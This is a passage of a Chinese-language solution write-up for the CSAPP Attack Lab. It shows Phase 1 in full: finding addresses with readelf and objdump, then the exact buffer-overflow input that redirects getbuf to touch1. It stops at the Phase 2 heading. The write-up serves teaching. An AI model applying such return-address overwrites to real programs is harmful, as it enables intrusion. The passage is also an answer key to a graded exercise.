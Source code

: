 # Solution to Attack Lab

> 本文档不会详细写出和解释每一个步骤、每一个指令、每一条汇编，如有疑问请自行查阅CSAPP课本、attack lab官方handout以及Google

## Phase 1

这一关的目标是通过输入的字符串进行注入攻击，使getbuf函数执行完之后跳转到touch1函数，这就需要我们去想办法得到touch1函数的地址以及getbuf函数执行完后返回到的地址。可以使用readelf和objdump，这里选择使用readelf，因为我们不需要知道touch1函数的具体内容：

```bash
readelf -s ctarget | grep touch1
```

我们便可以得到：

```assembly
136: 0000000000401743    44 FUNC    GLOBAL DEFAULT   13 touch1
```

那么touch1函数的起始地址就是0x401743

---

接下来获取getbuf的汇编代码：

```bash
objdump -d ctarget | grep -A20 '<getbuf>:'
```

得到：

```assembly
000000000040172d <getbuf>:
  40172d:       48 83 ec 28             sub    $0x28,%rsp
  401731:       48 89 e7                mov    %rsp,%rdi
  401734:       e8 31 02 00 00          call   40196a <Gets>
  401739:       b8 01 00 00 00          mov    $0x1,%eax
  40173e:       48 83 c4 28             add    $0x28,%rsp
  401742:       c3                      ret
```

可以发现这个函数开辟了0x28即40字节的空间，这个空间就是用来读取字符串的buf，那么我们只需要填满这个空间并在此之上填入touch1函数的地址，那么getbuf函数运行结束后便会跳转到这个地址。同时注意在栈中字节是由小端法储存的，因此我们需要倒转0x401743这三个字节，于是答案可以是：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
43 17 40 00 00 00 00 00
```

可以用`./hex2raw < 1.txt | ./ctarget (-q)`来运行代码，其中“｜”之前的部分是通过重定向得出字符串，之后用pipe将结果输入到ctarget中。-q用于调试，不会向服务器发送信息，调试通过后可以去掉这个flag。

## Phase 2

